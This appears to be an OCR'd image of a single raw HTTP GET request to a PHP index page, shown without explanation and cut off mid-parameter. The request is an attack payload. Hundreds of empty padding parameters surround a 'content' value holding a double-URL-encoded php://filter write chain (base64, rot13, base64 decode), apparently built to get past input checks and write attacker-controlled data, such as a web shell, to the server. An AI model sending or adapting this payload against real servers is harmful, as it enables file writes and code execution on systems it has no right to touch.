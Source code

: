 ```
GET /index.php/aaa/?a=&b=&c=&d=&e=&f=&g=&h=&i=&j=&k=&l=&m=&n=&o=&p=&q=&r=&s=&t=&u=&v=&w=&x=&y=&z=&A=&B=&C=&D=&E=&F=&G=&H=&I=&J=&K=&L=&M=&N=&O=&P=&Q=&R=&S=&T=&U=&V=&W=&X=&Y=&Z=&0=&1=&2=&3=&4=&5=&6=&7=&8=&9=&aa=&ab=&ac=&ad=&ae=&af=&ag=&ah=&ai=&aj=&ak=&al=&am=&an=&ao=&ap=&aq=&ar=&as=&at=&au=&av=&aw=&ax=&ay=&az=&aA=&aB=&aC=&aD=&aE=&aF=&aG=&aH=&aI=&aJ=&aK=&aL=&aM=&aN=&aO=&aP=&aQ=&aR=&aS=&aT=&aU=&aV=&aW=&aX=&aY=&aZ=&a0=&a1=&a2=&a3=&a4=&a5=&a6=&a7=&a8=&a9=&ba=&bb=&bc=&bd=&be=&bf=&bg=&bh=&bi=&bj=&bk=&bl=&bm=&bn=&bo=&bp=&bq=&br=&bs=&bt=&bu=&bv=&bw=&bx=&by=&bz=&bA=&bB=&bC=&bD=&bE=&bF=&bG=&bH=&bI=&bJ=&bK=&bL=&bM=&bN=&bO=&bP=&bQ=&bR=&bS=&bT=&bU=&bV=&bW=&bX=&bY=&bZ=&b0=&b1=&b2=&b3=&b4=&b5=&b6=&b7=&b8=&b9=&ca=&cb=&cc=&cd=&ce=&cf=&cg=&ch=&ci=&cj=&ck=&cl=&cm=&cn=&co=&cp=&cq=&cr=&cs=&ct=&cu=&cv=&cw=&cx=&cy=&cz=&cA=&cB=&cC=&cD=&cE=&cF=&cG=&cH=&cI=&content=php://filter/write=%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2565%256e%2563%256f%2564%2565|%2573%2574%2572%2569%256e%2567%252e%2572%256f%2574%2531%2533|%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565/resource=1%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%07b8%9C%A0%FB%0An&cJ=&cK=&cL=&cM=&cN=&cO=&cP=&cQ=&cR=&cS=&cT=&cU=&cV=&cW=&cX=&cY=&cZ=&c0=&c1=&c2=&c3=&c4=&c5=&c6=&c7=&c8=&c9=&da=&db=&dc=&dd=&de=&df=&dg=&dh=&di=&dj=&dk=&dl=&dm=&dn=&do=&dp=&dq=&dr=&ds=&dt=&du=&dv=&dw=&dx=&dy=&dz=&dA=&dB=&dC=&dD=&dE=&dF=&dG=&dH=&dI=&dJ=&dK=&dL=&dM=&dN=&dO=&dP=&dQ=&dR=&dS=&dT=&dU=&dV=&dW=&dX=&dY=&dZ=&d0=&d1=&d2=&d3=&d4=&d5=&d6=&d7=&d8=&d9=&ea=&eb=&ec=&ed=&ee=&ef=&eg=&eh=&ei=&ej=&ek=&el=&em=&en=&eo=&ep=&eq=&er=&es=&et=&eu=&ev=&ew=&ex=&ey=&ez=&eA=&eB=&eC=&eD=&eE=&eF=&eG=&eH=&eI=&eJ=&eK=&eL=&eM=&eN=&eO=&eP=&eQ=&eR=&eS=&eT=&eU=&eV=&eW=&eX=&eY=&eZ=&e0=&e1=&e2=&e3=&e4=&e5=&e6=&e7=&e8=&e9=&fa=&fb=&fc=&fd=&fe=&ff=&fg=&fh=&fi=&fj=&fk=&fl=&fm=&fn=&fo=&fp=&fq=&fr=&fs=&ft=&fu=&fv=&fw=&fx=&fy=&fz=&fA=&fB=&fC=&fD=&fE=&fF=&fG=&fH=&fI=&fJ=&fK=&fL=&fM=&fN=&fO=&fP=&fQ=&fR=&fS=&fT=&fU=&fV=&fW=&fX=&fY=&fZ=&f0=&f1=&f2=&f3=&f4=&f5=&f6=&f7=&f8=&f9=&ga=&gb=&gc=&gd=&ge=&gf=&gg=&gh=&gi=&gj=&gk=&gl=&gm=&gn=&go=&gp=&gq=&gr=&gs=&gt=&gu=&gv=&gw=&gx=&gy=&gz=&gA=&gB=&gC=&gD=&gE=&gF=&gG=&gH=&gI=&gJ=&gK=&gL=&gM=&gN=&gO=&gP=&gQ=&gR=&gS=&gT=&gU=&gV=&gW=&gX=&gY=&gZ=&g0=&g1=&g2=&g3=&g4=&g5=&g6=&g7=&g8=&g9=&ha=&hb=&hc=&hd=&he=&hf=&hg=&hh=&hi=&hj=&hk=&hl=&hm=&hn=&ho=&hp=&hq=&hr=&hs=&ht=&hu=&hv=&hw=&hx=&hy=&hz=&hA=&hB=&hC=&hD=&hE=&hF=&hG=&hH=&hI=&hJ=&hK=&hL=&hM=&hN=&hO=&hP=&hQ=&hR=&hS=&hT=&hU=&hV=&hW=&hX=&hY=&hZ=&h0=&h1=&h2=&h3=&h4=&h5=&h6=&h7=&h8=&h9=&ia=&ib=&ic=&id=&ie=&if=&ig=&ih=&ii=&ij=&ik=&il=&im=&in=&io=&ip=&iq=&ir=&is=&it=&iu=&iv=&iw=&ix=&iy=&iz=&iA=&iB=&iC=&iD=&iE=&iF=&iG=&iH=&iI=&iJ=&iK=&iL=&iM=&iN=&iO=&iP=&iQ=&iR=&iS=&iT=&iU=&iV=&iW=&iX=&iY=&iZ=&i0=&i1=&i2=&i3=&i4=&i5=&i6=&i7=&i8=&i9=&ja=&jb=&jc=&jd=&je=&jf=&jg=&jh=&ji=&jj=&jk=&jl=&jm=&jn=&jo=&jp=&jq=&jr=&js=&jt=&ju=&jv=&jw=&jx=&jy=&jz=&jA=&jB=&jC=&jD=&jE=&jF=&jG=&jH=&jI=&jJ=&jK=&jL=&jM=&jN=&jO=&jP=&jQ=&jR=&jS=&jT=&jU=&jV=&jW=&jX=&jY=&jZ=&j0=&j1=&j2=&j3=&j4=&j5=&j6=&j7=&j8=&j9=&ka=&kb=&kc=&kd=&ke=&kf=&kg=&kh=&ki=&kj=&kk=&kl=&km=&kn=&ko=&kp=&kq=&kr=&ks=&kt=&ku=&kv=&kw=&kx=&ky=&kz=&kA=&kB=&kC=&kD=&kE=&kF=&kG=&kH=&kI=&kJ=&kK=&kL=&kM=&kN=&kO=&kP=&kQ=&kR=&kS=&kT=&kU=&kV=&kW=&kX=&kY=&kZ=&k0=&k1=&k2=&k3=&k4=&k5=&k6=&k7=&k8=&k9=&la=&lb=&lc=&ld=&le=&lf=&lg=&lh=&li=&lj=&lk=&ll=&lm=&ln=&lo=&lp=&lq=&lr=&ls=&lt=&lu=&lv=&lw=&lx=&ly=&lz=&lA=&lB=&lC=&lD=&lE=&lF=&lG=&lH=&lI=&lJ=&lK=&lL=&lM=&lN=&lO=&lP=&lQ=&lR=&lS=&lT=&lU=&lV=&lW=&lX=&lY=&lZ=&l0=&l1=&l2=&l3=&l4=&l5=&l6=&l7=&l8=&l9=&ma=&mb=&mc=&md=&me=&mf=&mg=&mh=&mi=&mj=&mk=&ml=&mm=&mn=&mo=&mp=&mq=&mr=&ms=&mt=&mu=&mv=&mw=&mx=&my=&mz=&mA=&mB=&mC=&mD=&mE=&mF=&mG=&mH=&mI=&mJ=&mK=&mL=&mM=&mN=&mO=&mP=&mQ=&mR=&mS=&mT=&mU=&mV=&mW=&mX=&mY=&mZ=&m0=&m1=&m2=&m3=&m4=&m5=&m6=&m7=&m8=&m9=&na=&nb=&nc=&nd=&ne=&nf=&ng=&nh=&ni=&nj=&nk=&nl=&nm=&nn=&no=&np=&nq=&nr=&ns=&nt=&nu=&nv=&nw=&nx=&ny=&nz=&nA=&nB=&nC=&nD=&nE=&nF=&nG=&nH=&nI=&nJ=&nK=&nL=&nM=&nN=&nO=&nP=&nQ=&nR=&nS=&nT=&nU=&nV=&nW=&nX=&nY=&nZ=&n0=&n1=&n2=&n3=&n4=&n5=&n6=&n7=&n8=&n9=&oa=&ob=&oc=&od=&oe=&of=&og=&oh=&oi=&oj=&ok=&ol=&om=&on=&oo=&op=&oq=&or=&os=&ot=&ou=&ov=&ow=&ox=&oy=&oz=&oA=&oB=&oC=&oD=&oE=&oF=&oG=&oH=&oI=&oJ=&oK=&oL=&oM=&oN=&oO=&oP=&oQ=&oR=&oS=&oT=&oU=&oV=&oW=&oX=&oY=&oZ=&o0=&o1=&o2=&o3=&o4=&o5=&o6=&o7=&o8=&o9=&pa=&pb=&pc=&pd=&pe=&pf=&pg=&ph=&pi=&pj=&pk=&pl=&pm=&pn=&po=&pp=&pq=&pr=&ps=&pt=&pu=&pv=&pw=&px=&py=&pz=&pA=&pB=&pC=&pD=&pE=&pF=&pG=&pH=&pI=&pJ=&pK=&pL=&pM=&pN=&pO=&pP=&pQ=&pR=&pS=&pT=&pU=&pV=&pW=&pX=&pY=&pZ=&p0=&p1=&p2=&p3=&p4=&p5=&p6=&p7=&p8=&p9=&qa=&qb=&qc=&qd=&qe=&qf=&qg=&qh=&qi=&qj=&qk=&ql=&qm=&qn=&qo=&qp=&qq=&qr=&qs=&qt=&qu=&qv=&qw=&qx=&qy=&qz=&qA=&qB=&qC=&qD=&qE=&qF=&qG=&qH=&qI=&qJ=&qK=&qL=&qM=&qN=&qO=&qP=&qQ=&qR=&qS=&qT=&qU=&qV=&qW=&qX=&qY=&qZ=&q0=&q1=&q2=&q3=&q4=&q5=&q6=&q7=&q8=&q9=&ra=&rb=&rc=&rd=&re=&rf=&rg=&rh=&ri=&rj=&rk=&rl=&rm=&rn=&ro=&rp=&rq=&rr=&rs=&rt=&ru=&rv=&rw=&rx=&ry=&rz=&rA=&rB=&rC=&rD=&rE=&rF=&rG=&rH=&rI=&rJ=&rK=&rL=&rM=&rN=&rO=&rP=&rQ=&rR=&rS=&rT=&rU=&rV=&rW=&rX=&rY=&rZ=&r0=&r1=&r2=&r3=&r4=&r5=&r6=&r7=&r8=&r9=&sa=&sb=&sc=&sd=&se=&sf=&sg=&sh=&si=&sj=&sk=&sl=&sm=&sn=&so=&sp=&sq=&sr=&ss=&st=&su=&sv=&sw=&sx=&sy=&sz=&sA=&sB=&sC=&sD=&sE=&sF=&sG=&sH=&sI=&sJ=&sK=&sL=&sM=&sN=&sO=&sP=&sQ=&sR=&sS=&sT=&sU=&sV=&sW=&sX=&sY=&sZ=&s0=&s1=&s2=&s3=&s4=&s5=&s6=&s7=&s8=&s9=&ta=&tb=&tc=&td=&te=&tf=&tg=&th=&ti=&tj=&tk=&tl=&tm=&tn=&to=&tp=&tq=&tr=&ts=&tt=&tu=&tv=&tw=&tx=&ty=&tz=&tA=&tB=&tC=&tD=&tE=&tF=&tG=&tH=&tI=&tJ=&tK=&tL=&tM=&tN=&tO=&tP=&tQ=&tR=&tS=&tT=&tU=&tV=&tW=&tX=&tY=&tZ=&t0=&t1=&t2=&t3=&t4=&t5=&t6=&t7=&t8=&t9=&ua=&ub=&uc=&ud=&ue=&uf=&ug=&uh=&ui=&uj=&uk=&ul=&um=&un=&uo=&up=&uq=&ur=&us=&ut=&uu=&uv=&uw=&ux=&uy=&uz=&uA=&uB=&uC=&uD=&uE=&uF=&uG=&uH=&uI=&uJ=&uK=&uL=&uM=&uN=&uO=&uP=&uQ=&uR=&uS=&uT=&uU=&uV=&uW=&uX=&uY=&uZ=&u0=&u1=&u2=&u3=&u4=&u5=&u6=&u7=&u8=&u9=&va=&vb=&vc=&vd=&ve=&vf=&vg=&vh=&vi=&vj=&vk=&vl=&vm=&vn=&vo=&vp=&vq=&vr=&vs=&vt=&vu=&vv=&vw=&vx=&vy=&vz=&vA=&vB=&vC=&vD=&vE=&vF=&vG=&vH=&vI=&vJ=&vK=&
```